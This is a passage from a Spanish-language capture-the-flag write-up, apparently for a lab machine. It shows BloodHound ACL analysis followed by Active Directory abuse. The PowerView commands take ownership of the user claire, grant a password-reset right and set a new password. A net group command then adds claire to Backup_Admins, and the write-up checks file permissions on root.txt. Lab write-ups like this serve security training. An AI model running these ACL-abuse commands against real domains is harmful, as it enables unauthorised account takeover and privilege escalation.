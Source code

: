 > Vemos archivos como si hubieran hecho una auditoría.
> Y una nota que dice que no hay vías potenciales de escalar.
> acls.csv -> Archivo potencial a analizar, porque el resto son versiones de [SharpHound.ps1](/Bloodhound/) y es el único que destaca.
> Nos transferimos el archivo con [smbserver.py](/smbserver.py/)

```bash
libreoffice acls.csv
```

Vemos un reporte de Bloodhound, con información del sistema. Seleccionamos todas las columnas que se usan y le damos a **autofilter** para aplicar filtros. Buscamos el usuario tom, para ver que privilegios tiene. Vemos que tiene **WriteOwner** sobre **claire**, asi que podemos cambiarle la contraseña y conectarnos. Como esta el Powerview.ps1, nos aprovechamos para realizar la explotación

# Explotación

## OS
Entramos en una powershell e importamos el **Powerview.ps1**

```powershell
powershell
. .\Powerview.ps1
Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
$pass = ConvertTo-SecureString "Mario123$!" -AsPlainText -Force
Set-DomainUserPassword -Identity claire -AccountPassword $pass
```

## ssh
Nos conectamos por **ssh** como claire con las credenciales setteadas.

# PrivEsc
## OS

En el archivo acls.csv vemos que tenemos capacidad de añadirnos al grupo **Backup_Admins** como el usuario **claire** porque tenemos el privilegio **WriteDacl**.

```powershell
net group Backup_Admins claire /add
```

Para confirmar que el grupo se establece correctamente tenemos que salir y volver a entrar como el usuario claire.
Miramos que permisos tenemos sobre el directorio *Administrator*.

```powershell
icacls Administrator
icacls root.txt
cacls root.txt
```
